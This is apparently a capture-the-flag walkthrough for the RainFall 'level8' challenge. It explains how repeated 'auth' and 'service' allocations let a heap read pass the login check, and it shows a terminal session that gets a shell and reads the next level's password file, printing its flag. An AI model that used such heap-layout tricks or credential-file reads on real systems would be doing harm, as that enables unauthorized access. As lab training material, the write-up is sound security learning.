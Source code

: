 # Walkthrough

**Main** : 
The goal of exploiting the vulnerability in the program called "level8" is to gain unauthorized access over the program's execution by accessing sensitivearray that is not supposed to be accessible .


**Process**:  
>   the idea it's to make three malloc, then  from the first pointer you can read what is on the second, and vice versa.<br/> 
>   Just read further than what has been allocated<br/>
>   Initially auth point on the first alloc addr `x804a008` <br/>
>   The address has space by 16bytes<br/>
![Alt alloc](alloc.png)

## Solution 


```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth 
0x804a008, (nil) 
service 
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
login 
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a 

```
